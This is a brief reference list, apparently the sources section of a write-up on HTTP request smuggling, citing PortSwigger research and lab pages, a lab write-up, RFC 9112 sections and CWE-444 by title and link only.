* James Kettle (PortSwigger Research): *[HTTP/1.1 Must Die: The Desync Endgame](https://portswigger.net/research/http1-must-die)* (DEF CON 33 / Black Hat USA 2025)
* Brandon T. Elliott: *[Lab Writeup: PortSwigger - "0.CL Request Smuggling"](https://brandon-t-elliott.github.io/0-cl-request-smuggling)*
* RFC 9112: *HTTP/1.1 — Section 5.1 (Field Names) & Section 9.3 (Request Body Handling)*
* PortSwigger Web Security Academy: *[Advanced Request Smuggling](https://portswigger.net/web-security/request-smuggling/advanced)*
* CWE-444: *Inconsistent Interpretation of HTTP Requests ('HTTP Request Smuggling')*
